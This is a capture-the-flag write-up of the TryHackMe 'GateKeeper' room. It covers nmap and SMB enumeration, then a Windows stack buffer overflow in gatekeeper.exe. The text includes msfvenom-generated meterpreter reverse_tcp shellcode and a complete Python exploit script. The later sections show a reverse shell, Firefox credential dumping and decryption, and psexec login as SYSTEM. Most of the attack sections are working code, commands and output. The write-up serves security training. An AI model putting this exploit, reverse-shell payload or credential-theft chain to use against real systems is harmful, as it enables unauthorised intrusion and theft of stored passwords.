


# GateKeeper

**Date:** 22, July, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/gatekeeper) to go to the TryHackMe room.


## Enumeration

### Nmap

- Initial Scan

```bash
$ nmap 10.10.138.153
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 11:21 IST
Nmap scan report for 10.10.138.153
Host is up (0.22s latency).
Not shown: 990 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 24.35 seconds
```

- Services Scan 

```bash
nmap -sC -sV -Pn -p135,139,445,3389,31337 10.10.138.153 -oN nmap.out
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 11:23 IST

Nmap scan report for 10.10.138.153
Host is up (0.19s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2021-07-21T05:08:05
|_Not valid after:  2022-01-20T05:08:05
|_ssl-date: 2021-07-22T05:56:14+00:00; -5s from scanner time.
31337/tcp open  Elite?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     Hello GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
|     Hello
|   GenericLines: 
|     Hello 
|     Hello
|   GetRequest: 
|     Hello GET / HTTP/1.0
|     Hello
|   HTTPOptions: 
|     Hello OPTIONS / HTTP/1.0
|     Hello
|   Help: 
|     Hello HELP
|   Kerberos: 
|     Hello !!!
|   LDAPSearchReq: 
|     Hello 0
|     Hello
|   LPDString: 
|     Hello 
|     default!!!
|   RTSPRequest: 
|     Hello OPTIONS / RTSP/1.0
|     Hello
|   SIPOptions: 
|     Hello OPTIONS sip:nm SIP/2.0
|     Hello Via: SIP/2.0/TCP nm;branch=foo
|     Hello From: <sip:nm@nm>;tag=root
|     Hello To: <sip:nm2@nm2>
|     Hello Call-ID: 50000
|     Hello CSeq: 42 OPTIONS
|     Hello Max-Forwards: 70
|     Hello Content-Length: 0
|     Hello Contact: <sip:nm@nm>
|     Hello Accept: application/sdp
|     Hello
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    Hello
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.91%I=7%D=7/22%Time=60F907DC%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r
SF:(SIPOptions,142,"Hello\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r!!!\nHello\x20
SF:Via:\x20SIP/2\.0/TCP\x20nm;branch=foo\r!!!\nHello\x20From:\x20<sip:nm@n
SF:m>;tag=root\r!!!\nHello\x20To:\x20<sip:nm2@nm2>\r!!!\nHello\x20Call-ID:
SF:\x2050000\r!!!\nHello\x20CSeq:\x2042\x20OPTIONS\r!!!\nHello\x20Max-Forw
SF:ards:\x2070\r!!!\nHello\x20Content-Length:\x200\r!!!\nHello\x20Contact:
SF:\x20<sip:nm@nm>\r!!!\nHello\x20Accept:\x20application/sdp\r!!!\nHello\x
SF:20\r!!!\n")%r(GenericLines,16,"Hello\x20\r!!!\nHello\x20\r!!!\n")%r(HTT
SF:POptions,28,"Hello\x20OPTIONS\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n"
SF:)%r(RTSPRequest,28,"Hello\x20OPTIONS\x20/\x20RTSP/1\.0\r!!!\nHello\x20\
SF:r!!!\n")%r(Help,F,"Hello\x20HELP\r!!!\n")%r(SSLSessionReq,C,"Hello\x20\
SF:x16\x03!!!\n")%r(TerminalServerCookie,B,"Hello\x20\x03!!!\n")%r(TLSSess
SF:ionReq,C,"Hello\x20\x16\x03!!!\n")%r(Kerberos,A,"Hello\x20!!!\n")%r(Fou
SF:rOhFourRequest,47,"Hello\x20GET\x20/nice%20ports%2C/Tri%6Eity\.txt%2eba
SF:k\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r(LPDString,12,"Hello\x20\x01de
SF:fault!!!\n")%r(LDAPSearchReq,17,"Hello\x200\x84!!!\nHello\x20\x01!!!\n"
SF:);
Service Info: Host: GATEKEEPER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m55s, deviation: 2h00m00s, median: -5s
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:ca:44:22:da:3d (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-22T01:55:59-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-22T05:55:59
|_  start_date: 2021-07-22T05:07:31
```


### SMB Enumeration

```bash
$ smbclient -L 10.10.138.153
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
SMB1 disabled -- no workgroup available
```

---

## Download gatekeeper.exe

- Download gatekeeper.exe from the SMB share:

```bash
smbclient \\\\10.10.138.153\\Users
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri May 15 07:27:08 2020
  ..                                 DR        0  Fri May 15 07:27:08 2020
  Default                           DHR        0  Tue Jul 14 12:37:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:24:24 2009
  Share                               D        0  Fri May 15 07:28:07 2020

                7863807 blocks of size 4096. 3950982 blocks available
smb: \> cd Share\
smb: \Share\> ls
  .                                   D        0  Fri May 15 07:28:07 2020
  ..                                  D        0  Fri May 15 07:28:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 10:57:17 2020

                7863807 blocks of size 4096. 3950925 blocks available
smb: \Share\> get gatekeeper.exe 
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (19.3 KiloBytes/sec) (average 19.3 KiloBytes/sec)
```

---

## Buffer Overflow

- For the exploit python code, refer [BufferOverflow Prep](BufferOverflowPrep.md)

### Fuzzing

- By fuzzing we find that the crash occurs at around `200 bytes`:

```bash
$ ./exploit.py
Fuzzing with 101 bytes
Fuzzing with 201 bytes
Fuzzing crashed at 201 bytes
```

### Finding the offset

- Create pattern of `500 bytes` using `pattern_create.rb`

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq
```

- EIP value: `39654138`

- Find the exact offset using `pattern_offset.rb`:

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 500 -q 39654138
[*] Exact match at offset 146
```

### Overwriting EIP

- We can successfully control the EIP value:



### Finding Bad chars

- The bad chars are `\x00\x0a`.
- Use mona or find it manually!

### Finding Right Module

- Use `!mona modules` to find the right module (no memory protection)

- Find the `JMP ESP` address using the command `!mona jmp -r esp -m gatekeeper.exe -cpb '\x00\x0a'`


### Generating shell code

- Generate shell code using `msfvenom`:

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -b "\x00\x0a" -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of py file: 1865 bytes
buf =  b""
buf += b"\xb8\x80\xf4\xbe\xa2\xd9\xea\xd9\x74\x24\xf4\x5a\x29"
buf += b"\xc9\xb1\x59\x83\xea\xfc\x31\x42\x10\x03\x42\x10\x62"
buf += b"\x01\x42\x4a\xed\xea\xbb\x8b\x91\x63\x5e\xba\x83\x10"
buf += b"\x2a\xef\x13\x52\x7e\x1c\xd8\x36\x6b\x13\x69\xfc\xb5"
buf += b"\xa0\xe7\x29\x8b\x49\x36\xea\x47\x89\x59\x96\x95\xde"
buf += b"\xb9\xa7\x55\x13\xb8\xe0\x23\x59\x55\xbc\x38\xf3\xb9"
buf += b"\x16\xb4\xb6\x85\x99\x1a\xbd\xb5\xe1\x1f\x02\x41\x5e"
buf += b"\x21\x53\x22\x06\x01\xd8\x7c\xaf\x40\x0d\x2c\x4a\x8b"
buf += b"\xc5\xf0\x65\xf3\x6f\x83\xb2\x80\x71\x45\x8b\x56\xb0"
buf += b"\xa6\xe1\xfa\x32\xff\xc2\xe2\x40\x0b\x31\x9e\x52\xc8"
buf += b"\x4b\x44\xd6\xce\xec\x0f\x40\x2a\x0c\xc3\x17\xb9\x02"
buf += b"\xa8\x5c\xe5\x06\x2f\xb0\x9e\x33\xa4\x37\x70\xb2\xfe"
buf += b"\x13\x54\x9e\xa5\x3a\xcd\x7a\x0b\x42\x0d\x22\xf4\xe6"
buf += b"\x46\xc1\xe3\x97\xa7\x19\x0c\xca\x3f\xd5\xc1\xf5\xbf"
buf += b"\x71\x51\x85\x8d\xde\xc9\x01\xbd\x97\xd7\xd6\xb4\xb0"
buf += b"\xe7\x09\x7e\xd0\x19\xaa\x7e\xf8\xdd\xfe\x2e\x92\xf4"
buf += b"\x7e\xa5\x62\xf8\xaa\x53\x69\x6e\x5f\xb2\x6a\x35\x37"
buf += b"\xb6\x74\xcd\x15\x3f\x92\x9d\xc9\x6f\x0b\x5e\xba\xcf"
buf += b"\xfb\x36\xd0\xc0\x24\x26\xdb\x0b\x4d\xcd\x34\xe5\x25"
buf += b"\x7a\xac\xac\xbe\x1b\x31\x7b\xbb\x1c\xb9\x89\x3b\xd2"
buf += b"\x4a\xf8\x2f\x03\x2d\x02\xb0\xd4\xd8\x02\xda\xd0\x4a"
buf += b"\x55\x72\xdb\xab\x91\xdd\x24\x9e\xa2\x1a\xda\x5f\x92"
buf += b"\x51\xed\xf5\x9a\x0d\x12\x1a\x1a\xce\x44\x70\x1a\xa6"
buf += b"\x30\x20\x49\xd3\x3e\xfd\xfe\x48\xab\xfe\x56\x3c\x7c"
buf += b"\x97\x54\x1b\x4a\x38\xa7\x4e\xc8\x3f\x57\x0c\xe7\xe7"
buf += b"\x3f\xee\xb7\x17\xbf\x84\x37\x48\xd7\x53\x17\x67\x17"
buf += b"\x9b\xb2\x20\x3f\x16\x53\x82\xde\x27\x7e\x42\x7e\x27"
buf += b"\x8d\x5f\x71\x52\xfe\x60\x72\xa3\x16\x05\x73\xa3\x16"
buf += b"\x3b\x48\x75\x2f\x49\x8f\x45\x14\x42\xba\xe8\x3d\xc9"
buf += b"\xc4\xbf\x3e\xd8"
```

### Final exploit 

```py
#! /usr/bin/python3

import sys, socket, time, struct

ip = '10.10.171.234'
port = 31337
timeout = 5
offset = 146

eip = b''.join([struct.pack('<I', 0x080414C3)])

nop_sled = b'\x90' * 16

buf =  b""
buf += b"\xb8\x80\xf4\xbe\xa2\xd9\xea\xd9\x74\x24\xf4\x5a\x29"
buf += b"\xc9\xb1\x59\x83\xea\xfc\x31\x42\x10\x03\x42\x10\x62"
buf += b"\x01\x42\x4a\xed\xea\xbb\x8b\x91\x63\x5e\xba\x83\x10"
buf += b"\x2a\xef\x13\x52\x7e\x1c\xd8\x36\x6b\x13\x69\xfc\xb5"
buf += b"\xa0\xe7\x29\x8b\x49\x36\xea\x47\x89\x59\x96\x95\xde"
buf += b"\xb9\xa7\x55\x13\xb8\xe0\x23\x59\x55\xbc\x38\xf3\xb9"
buf += b"\x16\xb4\xb6\x85\x99\x1a\xbd\xb5\xe1\x1f\x02\x41\x5e"
buf += b"\x21\x53\x22\x06\x01\xd8\x7c\xaf\x40\x0d\x2c\x4a\x8b"
buf += b"\xc5\xf0\x65\xf3\x6f\x83\xb2\x80\x71\x45\x8b\x56\xb0"
buf += b"\xa6\xe1\xfa\x32\xff\xc2\xe2\x40\x0b\x31\x9e\x52\xc8"
buf += b"\x4b\x44\xd6\xce\xec\x0f\x40\x2a\x0c\xc3\x17\xb9\x02"
buf += b"\xa8\x5c\xe5\x06\x2f\xb0\x9e\x33\xa4\x37\x70\xb2\xfe"
buf += b"\x13\x54\x9e\xa5\x3a\xcd\x7a\x0b\x42\x0d\x22\xf4\xe6"
buf += b"\x46\xc1\xe3\x97\xa7\x19\x0c\xca\x3f\xd5\xc1\xf5\xbf"
buf += b"\x71\x51\x85\x8d\xde\xc9\x01\xbd\x97\xd7\xd6\xb4\xb0"
buf += b"\xe7\x09\x7e\xd0\x19\xaa\x7e\xf8\xdd\xfe\x2e\x92\xf4"
buf += b"\x7e\xa5\x62\xf8\xaa\x53\x69\x6e\x5f\xb2\x6a\x35\x37"
buf += b"\xb6\x74\xcd\x15\x3f\x92\x9d\xc9\x6f\x0b\x5e\xba\xcf"
buf += b"\xfb\x36\xd0\xc0\x24\x26\xdb\x0b\x4d\xcd\x34\xe5\x25"
buf += b"\x7a\xac\xac\xbe\x1b\x31\x7b\xbb\x1c\xb9\x89\x3b\xd2"
buf += b"\x4a\xf8\x2f\x03\x2d\x02\xb0\xd4\xd8\x02\xda\xd0\x4a"
buf += b"\x55\x72\xdb\xab\x91\xdd\x24\x9e\xa2\x1a\xda\x5f\x92"
buf += b"\x51\xed\xf5\x9a\x0d\x12\x1a\x1a\xce\x44\x70\x1a\xa6"
buf += b"\x30\x20\x49\xd3\x3e\xfd\xfe\x48\xab\xfe\x56\x3c\x7c"
buf += b"\x97\x54\x1b\x4a\x38\xa7\x4e\xc8\x3f\x57\x0c\xe7\xe7"
buf += b"\x3f\xee\xb7\x17\xbf\x84\x37\x48\xd7\x53\x17\x67\x17"
buf += b"\x9b\xb2\x20\x3f\x16\x53\x82\xde\x27\x7e\x42\x7e\x27"
buf += b"\x8d\x5f\x71\x52\xfe\x60\x72\xa3\x16\x05\x73\xa3\x16"
buf += b"\x3b\x48\x75\x2f\x49\x8f\x45\x14\x42\xba\xe8\x3d\xc9"
buf += b"\xc4\xbf\x3e\xd8"

payload = [
b'A'*offset,
eip,
nop_sled,
buf,
b'\n'
]

try:
	s = socket.socket()
	s.settimeout(timeout)
	s.connect((ip, port))
	s.send(b''.join(payload))
	print('Fuzzing with {} bytes'.format(len(b''.join(payload))))
	s.recv(1024)
	s.close()
except:
	print('Fuzzing crashed at {} bytes'.format(len(b''.join(payload))))
	exit(0)
```

---

## User Flag

- Run the exploit to get reverse shell:

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.7.91:1234 
[*] Sending stage (175174 bytes) to 10.10.78.193
[*] Meterpreter session 1 opened (10.17.7.91:1234 -> 10.10.78.193:49182) at 2021-07-22 21:57:17 +0530

meterpreter > shell
Process 2328 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>whoami
whoami
gatekeeper\natbat
```

- User Flag

```bash
C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{REDACTED}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```

---

## Privilege Escalation

### Dump Firefox credentials

- Dumping Firefox credentials using `post/multi/gather/firefox_creds`

```bash
meterpreter > run post/multi/gather/firefox_creds 

[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /root/.msf4/loot/20210722215837_default_10.10.78.193_ff.ljfn812a.cert_674444.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20210722215840_default_10.10.78.193_ff.ljfn812a.cook_843509.bin
[+] Downloaded key4.db: /root/.msf4/loot/20210722215842_default_10.10.78.193_ff.ljfn812a.key4_435555.bin
[+] Downloaded logins.json: /root/.msf4/loot/20210722215845_default_10.10.78.193_ff.ljfn812a.logi_469332.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default
```

### Firefox Decrypt

- Rename the dumped files

```bash
$ mv 20210722215845_default_10.10.78.193_ff.ljfn812a.logi_469332.bin logins.json
$ mv 20210722215837_default_10.10.78.193_ff.ljfn812a.cert_674444.bin cert9.db
$ mv 20210722215840_default_10.10.78.193_ff.ljfn812a.cook_843509.bin cookies.sqlite
$ mv 20210722215842_default_10.10.78.193_ff.ljfn812a.key4_435555.bin key4.db
```

- Run the `firefox_decrypt.py` to obtain the password

```bash
$ python3 /opt/firefox_decrypt/firefox_decrypt.py  .
2021-07-22 22:05:27,841 - WARNING - profile.ini not found in .
2021-07-22 22:05:27,842 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: 'REDACTED'
```

---

## Root Flag

- Login using the credentials found (use `psexec`):

```bash
$ psexec.py mayor:REDACTED@10.10.78.193
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.78.193.....
[*] Found writable share ADMIN$
[*] Uploading file LNnrfdFC.exe
[*] Opening SVCManager on 10.10.78.193.....
[*] Creating service YiYD on 10.10.78.193.....
[*] Starting service YiYD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:\Users\
 
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users

05/14/2020  09:57 PM    <DIR>          .
05/14/2020  09:57 PM    <DIR>          ..
04/19/2020  11:55 AM    <DIR>          mayor
05/14/2020  09:58 PM    <DIR>          natbat
05/14/2020  09:54 PM    <DIR>          Public
05/14/2020  09:58 PM    <DIR>          Share
               0 File(s)              0 bytes
               6 Dir(s)  16,289,943,552 bytes free

C:\Users>cd mayor
 
C:\Users\mayor>cd Desktop
 
C:\Users\mayor\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\mayor\Desktop

05/14/2020  09:58 PM    <DIR>          .
05/14/2020  09:58 PM    <DIR>          ..
05/14/2020  09:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,290,467,840 bytes free

C:\Users\mayor\Desktop>type root.txt.txt
{REDACTED}
```

---

## References

- [Samba - smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)